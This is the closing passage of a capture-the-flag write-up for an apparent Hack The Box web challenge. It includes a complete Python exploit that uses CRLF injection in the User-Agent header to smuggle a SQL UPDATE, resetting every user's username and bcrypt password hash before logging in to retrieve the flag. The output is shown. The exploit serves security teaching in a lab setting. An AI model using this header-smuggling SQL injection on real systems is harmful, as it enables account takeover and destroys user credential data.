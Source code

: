 Trying to re-run the script and... it works!

Now, to bypass the password, an idea would be to add an user with username and
password of our choice, which can we use later to login and get the flag. For
some reason, adding users did not work for me, so instead I modified all
existing users setting the same username `a` and password `b`. 

Note: the password is hashed with `bcrypt`! So we have to store the hashed
version of the password to the database. To get a valid hash of the password, we
can simply reproduce the same Go code and print out the hashed version of `b`,
which turns out it is equal to
`$2a$10$OMv7TKyoqShcmWryPU9syOMr6PygopMySxuTfTcWZHy7fo/VS577S` (this includes
the salt).

The last thing to be aware of is that the request from frontend to backend will
have a `Content-Length` that depends on the input username and password (the
*real* ones, not the ones injected via the user-agent). If we do not pass any
body, or if our username and password are too short, the request to the backend
will be truncated and part of our payload will be lost. Therefore, it is
important to send a body large enough to the frontend.

Now we have everything we need to get the flag! Here is the complete exploit:

```py
import requests

URL = "http://localhost:1337/user" # replace with remote server

def send_post_request(url, headers, data):
    x = requests.post(url, headers=headers, data=data)
    print(x.status_code)
    print(x.text)

# SQL Injection: set all users' usernames to `a` and passwords to `b`
send_post_request(
    URL,
    {
        'Content-Type': 'application/x-www-form-urlencoded',
        "User-Agent": "Mozilla/7.0%0d%0a%0d%0a{\"username\":\"'; UPDATE users SET username = 'a', password = '$2a$10$OMv7TKyoqShcmWryPU9syOMr6PygopMySxuTfTcWZHy7fo/VS577S' WHERE '1'='1\"}",
    },
    b"username=aaaa&password="+ b"a" * 1024 # the body should be at least as big as the payload in the user-agent header, otherwise errors will occur
)

# Getting the flag by performing a valid login
send_post_request(
    URL,
    {
        'Content-Type': 'application/x-www-form-urlencoded',
        "User-Agent": "Mozilla/7.0",
    },
    b"username=a&password=b"
)
```

Output:

```
200
{"msg": "Invalid username or password"}
200
{"msg": "HTB{d0_th3_d45h_0n_th3_p4r53r}"}
```
